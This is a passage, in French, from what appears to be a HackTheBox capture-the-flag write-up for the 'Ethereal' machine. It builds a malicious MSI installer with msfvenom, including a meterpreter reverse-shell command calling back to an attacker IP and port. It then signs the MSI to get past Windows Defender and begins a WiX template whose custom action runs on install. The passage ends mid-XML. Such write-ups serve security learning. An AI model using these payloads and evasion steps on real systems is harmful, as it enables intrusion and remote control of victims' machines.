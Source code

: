 Thank Gog I'm Using Linux
-------------------------

Pour créer un MSI j'ai d'abord eu recours à *Metasploit* :  

```bash
msfvenom -f msi -a x86 --platform windows -p windows/meterpreter/reverse_tcp_rc4 EnableStageEncoding=true RC4PASSWORD=fuckit LHOST=10.10.13.187 LPORT=73  -o rev.msi
```

Pour avoir les outils permettant de signer le MSI [il faut installer un SDK de Microsoft](http://www.microsoft.com/en-us/download/details.aspx?id=8279).  

Comme ils ne peuvent rien faire comme les autres la première étape est de convertir le CER et le PVK dans d'autres formats :D   

Je m'en tirais alors avec le batch suivant :  

```bash
"c:\Program Files\Microsoft SDKs\Windows\v7.1\Bin\Cert2Spc.exe" \\VBOXSVR\shared\MyCa.cer c:\users\ieuser\MyCa.spc
"c:\Program Files\Microsoft SDKs\Windows\v7.1\Bin\pvk2pfx.exe" -pvk \\VBOXSVR\shared\MyCa.pvk -spc c:\users\ieuser\MyCa.spc -pfx c:\users\ieuser\MyCa.pfx
"c:\Program Files\Microsoft SDKs\Windows\v7.1\Bin\signtool.exe" sign /f c:\users\ieuser\MyCa.pfx c:\users\ieuser\test.msi
```

Voyant que mon MSI était traité (il disparaît du dossier d'*Ethereal* après un moment) sans être exécuté j'ai pensé que ça pouvait être lié au payload car *Windows Defender* tourne sur la machine. A tout hasard j'ai essayé avec un payload peut être moins typé mais plus générique (il suffit d'éditer le bat ciblé pour changer les commandes) .  

```plain
msfvenom -a x86 -f msi --platform windows -p windows/exec CMD="d:\dev\msis\devloop.bat" -o rev.msi
```

Ça ne marche toujours pas... Il faut dire aussi que l'exécution de .bat directement semble tout aussi bloquée :p   

Dans le doute que le problème soit bien du côté de *Defender* il fallait trouver un autre moyen de générer un MSI... On aurait pu penser que c'est une opération simple à faire et qu'il existe des outils *Crosoft* pour faire ça. Mais non !  

J'ai jeté mon dévolu sur [Wix Toolset](http://wixtoolset.org/). C'est pas mal documenté mais pas d'interface graphique.  

Certains ont peut être utilisé un MSI publique et l'ont édité avec *Orca* (je verrais ça quand *Ethereal* sera retiré de *HackTheBox*) mais je tenais à avoir un MSI le plus petit possible.  

Heureusement on peut trouver un template de fichier XML pour *Wix* [sur CodeProject](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with) et après quelques recherches on trouve aussi les options qui nous intéressent.  

On parvient alors à ce fichier XML :  

```html
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
   <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111"
            Name="Example Product Name" Version="0.0.1" Manufacturer="Example Company Name" Language="1033">
      <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
      <Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
      <Directory Id="TARGETDIR" Name="SourceDir">
         <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222"/>
      </Directory>
      <Feature Id="DefaultFeature" Level="1">
         <ComponentRef Id="ApplicationFiles"/>
      </Feature>
          <InstallExecuteSequence>
         <Custom Action='OurAction' After='InstallFiles'/>
      </InstallExecuteSequence>
```